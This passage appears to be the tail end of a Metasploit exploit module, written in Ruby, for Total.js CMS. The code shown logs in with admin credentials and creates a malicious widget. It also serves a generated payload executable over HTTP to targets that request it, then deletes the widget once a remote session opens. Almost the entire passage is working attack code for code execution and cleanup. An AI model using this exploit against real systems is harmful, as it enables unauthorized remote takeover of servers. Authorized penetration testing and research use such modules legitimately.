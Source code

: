     unless res
      fail_with(Failure::Unknown, 'Connection timed out')
    end
 
    res_json = res.get_json_document
    if res_json.kind_of?(Hash) && res_json['success']
      print_good("Widget cleared successfully")
    else
      fail_with(Failure::Unknown, 'No success message in body')
    end
  end
 
  def on_request_uri(cli, req)
    print_status("#{cli.peerhost} requesting: #{req.uri}")
 
    if req.uri =~ /p_.+/
      payload_exe = generate_payload_exe(code: payload.encoded)
      print_status("Sending payload to #{cli.peerhost}")
      send_response(cli, payload_exe, {'Content-Type' => 'application/octet-stream'})
      return
    end
 
    send_not_found(cli)
  end
 
  def on_new_session(session)
    clear_widget
  end
 
  # This is kind of for cleaning up the wiget, because we cannot pass it as an
  # argument in on_new_session.
  def get_widget
    @widget
  end
 
  # This is also kind of for cleaning up widget, because we cannot pass it as an
  # argument directly
  def get_admin_token
    @admin_token
  end
 
  def exploit
    user = datastore['TOTALJSUSERNAME']
    pass = datastore['TOTALJSPASSWORD']
    print_status("Attempting to authenticate with #{user}:#{pass}")
    admin_token = auth(user, pass)
    fail_with(Failure::Unknown, 'No admin token found') if admin_token.blank?
    print_good("Authenticatd as: #{user}:#{pass}")
    print_status("Creating a widget...")
    @widget = create_widget(admin_token)
    super
  end
 
end
</pre>